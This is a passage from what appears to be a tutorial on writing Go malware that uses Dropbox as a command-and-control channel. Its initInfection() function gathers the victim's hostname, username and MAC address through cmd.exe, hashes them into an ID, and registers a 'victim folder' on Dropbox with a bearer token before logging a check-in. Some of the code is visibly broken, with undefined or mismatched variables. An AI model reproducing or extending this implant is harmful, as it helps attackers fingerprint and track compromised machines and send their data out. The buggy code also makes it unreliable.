 ```
	}
	if exists == 0 {
		fmt.Println("Folder doesn't exist!")
		return false
	} else {
		return true
	}
}

```

So adding the use of *folderExists()* to *initInfection()*, we'd get this:

```
func initInfection() {
	hostname, _ := exec.Command("cmd.exe", "/C", "hostname").Output()
	username, _ := exec.Command("cmd.exe", "/C", "whoami").Output()
	macAddress, _ := exec.Command("cmd.exe", "/C", "getmac").Output()
	uniqueID := string(hostname) + "-" + string(username) + "-" + string(macAddress)
	hashGen := sha1.New()
	hashGen.Write([]byte(beg))
	UUID = hex.EncodeToString(hashGen.Sum(nil))
	uniqueUserFolder := "/" + UUID
	if folderExists(UUID) {
		fmt.Println("Folder detected, skipping creation of unique victim folder...")
	} else {
		fmt.Println("Unique victim folder not created, creating one...")
		var bearer = "Bearer " + token
		dataParam1 := []interface{} {uniqueUserFolder}
		dataParam2 := []interface{} {true, false}	
		requestParams, _ := json.Marshal(map[string]interface{} {
			"path": dataParam1[0],
			"autorename": dataParam2[1],
		})
		request, _ := http.NewRequest("POST", "https://api.dropboxapi.com/2/files/create_folder_v2", bytes.NewBuffer(requestParams))
		request.Header.Add("Authorization", bearer)
		request.Header.Add("Content-Type", "application/json")
		response, _ := client.Do(request)
		respbody, _ := ioutil.ReadAll(response.Body)
		fmt.Println(string(respbody))
		resp.Body.Close()
	}
	logFileWriter(userFolder, "Victim check in")
	return
}
```
* Note: we also added in a check-in functionality using the *logFileWriter* which is explained later on in the Error Handling section. 

## Uploading Files

